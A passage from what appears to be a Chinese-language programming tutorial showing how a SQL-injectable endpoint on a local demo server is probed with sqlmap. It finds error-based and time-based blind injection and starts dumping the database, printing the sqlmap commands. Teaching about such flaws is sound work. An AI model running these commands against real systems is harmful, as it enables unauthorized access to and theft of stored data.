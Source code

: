 ```
}
```

使用 sqlmap 来探索这个接口：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test
```

一段时间后，sqlmap 给出了如下结果：

![img](assets/2f8e8530dd0f76778c45333adfad5259.png)

可以看到，这个接口的 name 参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，仅需简单的三步，就可以直接导出整个用户表的内容了。

第一步，查询当前数据库：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db
```

可以得到当前数据库是 common_mistakes：

```
current database: 'common_mistakes'
```

第二步，查询数据库下的表：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"
```
